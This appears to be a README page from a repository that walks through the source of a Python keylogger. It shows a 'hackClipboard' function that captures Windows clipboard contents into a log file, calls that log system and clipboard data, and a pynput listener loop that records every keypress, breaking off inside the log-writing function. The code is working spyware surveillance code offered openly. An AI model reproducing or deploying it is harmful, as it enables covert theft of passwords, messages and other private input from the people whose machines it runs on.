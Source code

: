 **Module Name**


* hackClipboard()


```python
# get clipboard info
def hackClipboard():
    with open(clipboardInfo, "a") as f:
        try:
            win32clipboard.OpenClipboard()
            pastedData = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()

            f.write(f"[Time: {time.time()}]: \n" + pastedData)
        except:
            f.write("[ERROR]: Failed to fetch clipboard contents.")
```

<h3>Calling the functions</h3>

```python
# Log System Data, ClipBoard Data
aboutSystem()
print("[LOG]: System Info Logged")

hackClipboard()
print("[LOG]: ClipBoard Info Logged")
```

<h3>KeyLogger</h3>


<h4>Packages Used</h4>


1. pynput.keyboard
    1. Key
    2. Listener
2. time

```python
print(f"[LOG [{time.time()}]]: KeyLogger Active.")

with open(keysInfo, "a") as f:
    f.write(f"[LOG [{time.time()}]]: KeyLogger Active.\n")
    f.write(f"[{time.time()}]\n")
    f.write("[LOG]: System Info Logged\n")
    f.write("[LOG]: ClipBoard Info Logged\n")

# KeyLogger
while True:
    count = 0
    keys = []

    def onPress(key):
        global keys, count, currentTime
        print(f"{key} pressed")
        keys.append(key)
        count += 1
        currentTime = time.time()

        if count >= 1:
            count = 0
            writeLog(keys)
            keys = []
    
    def writeLog(keys):
        with open(keysInfo, "a") as f:
```